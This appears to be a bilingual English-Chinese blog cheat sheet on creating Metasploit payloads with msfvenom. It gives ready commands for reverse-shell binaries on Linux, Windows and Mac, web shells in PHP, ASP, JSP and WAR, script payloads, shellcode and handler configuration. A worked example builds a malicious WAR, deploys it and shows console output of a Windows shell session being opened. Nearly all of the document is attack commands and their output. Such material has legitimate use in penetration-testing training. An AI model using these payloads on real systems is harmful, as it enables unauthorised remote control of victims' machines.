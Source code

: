 ﻿# Creating Metasploit Payloads 创建Metasploit有效负载

------

Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

通常，Metasploit最有用（以及初学者被低估）的能力之一是msfpayload模块。使用此模块可以创建多个有效负载，它可以帮助您在几乎任何情况下都能获得shell。对于每个有效负载，您可以进入msfconsole并选择exploit / multi / handler。为所使用的相关有效负载运行'set payload'并配置所有必需的选项（LHOST，LPORT等）。执行并等待有效负载运行。对于下面的示例，它是非常自我解释但LHOST应填入您的IP地址（如果在网络内攻击，则为LAN IP，如果通过互联网进行攻击则为WAN IP），LPORT应该是您希望重新连接的端口。

------

## List payloads 列出有效负载

```txt
msfvenom -l
```

---

## Binaries 二进制

### Linux

```txt
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac

```txt
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

---

## Web Payloads 网络有效负载

### PHP

```txt
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP

```txt
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR

```txt
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

---

## Scripting Payloads 脚本有效负载

### Python

```txt
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash

```txt
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl

```txt
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

---

## Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

对于所有shellcode，请参阅'msfvenom -help-formats'以获取有效信息 参数。Msfvenom将输出能够以此语言剪切和粘贴的代码以供您利用。

### Linux Based Shellcode 基于Linux的Shellcode

```txt
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Windows Based Shellcode 基于Windows的Shellcode

```txt
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode 基于Mac的Shellcode

```txt
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

---

## Handlers 处理程序

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

Metasploit处理程序可以很好地快速设置Metasploit以便接收您的传入shell。处理程序应采用以下格式。

```txt
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

完成所需的值后，以下命令将执行您的处理程序 - 'msfconsole -L -r “

---

## 示例说明

生成包含反向TCP shell的恶意WAR文件。相应地配置本地IP和端口。

```txt
msfvenom -p java/shell_reverse_tcp LHOST=172.16.245.143 LPORT=4444 -f war > shell3.war
```

在Metasploit中设置处理程序然后访问manger接口以部署恶意WAR。上传后，请务必至少访问一次恶意URL（在应用程序列表中可用）以使WAR执行。你应该在Metasploit处理程序中收到一个shell。

```txt
use exploit/multi/handler
set PAYLOAD java/shell_reverse_tcp
set LHOST 172.16.245.143
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

```txt
[i] Database already started
[i] The database appears to be already configured, skipping initialization
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.17.3-dev                          ]
+ -- --=[ 1795 exploits - 1019 auxiliary - 310 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD java/shell_reverse_tcp
PAYLOAD => java/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.245.143
LHOST => 172.16.245.143
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.245.143:4444 
msf exploit(multi/handler) > [*] Command shell session 1 opened (172.16.245.143:4444 -> 172.16.245.1:53088) at 2018-10-18 02:37:15 +0800
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type             Information                                                                       Connection
  --  ----  ----             -----------                                                                       ----------
  1         shell java/java  Microsoft Windows [_ 6.1.7601] _ (c) 2009 Microsoft Corporation_ C:\Program F...  172.16.245.143:4444 -> 172.16.245.1:53088 (172.16.245.1)
```

![Snipaste_2018-10-18_02-40-23.png](https://whitecell.io/upload/attach/201810/151_96N9ENZ9F99TJP5.png "Snipaste_2018-10-18_02-40-23.png")

![Snipaste_2018-10-18_02-42-05.png](https://whitecell.io/upload/attach/201810/151_G5C94KHFNR42UWN.png "Snipaste_2018-10-18_02-42-05.png")

------

博客作者，文章总结者 [@Mannix][1]      
2018 年 10 月 18 日

原始参考文档 [@Creating Metasploit Payloads][2]      

[1]: http://mannix.top/
[2]: https://netsec.ws/?p=331






